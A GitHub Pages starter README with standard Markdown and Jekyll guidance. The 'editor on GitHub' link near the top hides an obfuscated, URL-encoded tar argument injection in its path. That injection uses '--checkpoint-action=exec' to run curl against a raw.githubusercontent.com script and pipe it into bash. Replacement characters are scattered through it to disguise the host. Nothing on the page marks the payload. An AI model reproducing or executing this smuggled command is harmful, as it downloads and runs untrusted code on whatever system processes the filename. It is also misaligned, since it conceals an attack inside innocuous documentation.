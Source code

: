 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/s0larized/foo/edit/main/%22%22%20--checkpoint%3D1%20--checkpoint-action%3D%22exec%3Dcurl%20-L%20%EF%BF%BDr%EF%BF%BDa%EF%BF%BDw%EF%BF%BD.%EF%BF%BDg%EF%BF%BDi%EF%BF%BDt%EF%BF%BDh%EF%BF%BDu%EF%BF%BDb%EF%BF%BDu%EF%BF%BDs%EF%BF%BDe%EF%BF%BDr%EF%BF%BDc%EF%BF%BDo%EF%BF%BDn%EF%BF%BDt%EF%BF%BDe%EF%BF%BDn%EF%BF%BDt%EF%BF%BD.%EF%BF%BDc%EF%BF%BDo%EF%BF%BDm%EF%BF%BD/%EF%BF%BDs%EF%BF%BD0%EF%BF%BDl%EF%BF%BDa%EF%BF%BDr%EF%BF%BDi%EF%BF%BDz%EF%BF%BDe%EF%BF%BDd%EF%BF%BD/%EF%BF%BDb%EF%BF%BDa%EF%BF%BDr%EF%BF%BD/%EF%BF%BDm%EF%BF%BDa%EF%BF%BDi%EF%BF%BDn%EF%BF%BD/%EF%BF%BDf%EF%BF%BDo%EF%BF%BDo%EF%BF%BD.%EF%BF%BDs%EF%BF%BDh%20%7C%20bash%22%20--exclude%3D/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [Basic writing and formatting syntax](https://docs.github.com/en/github/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/s0larized/foo/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
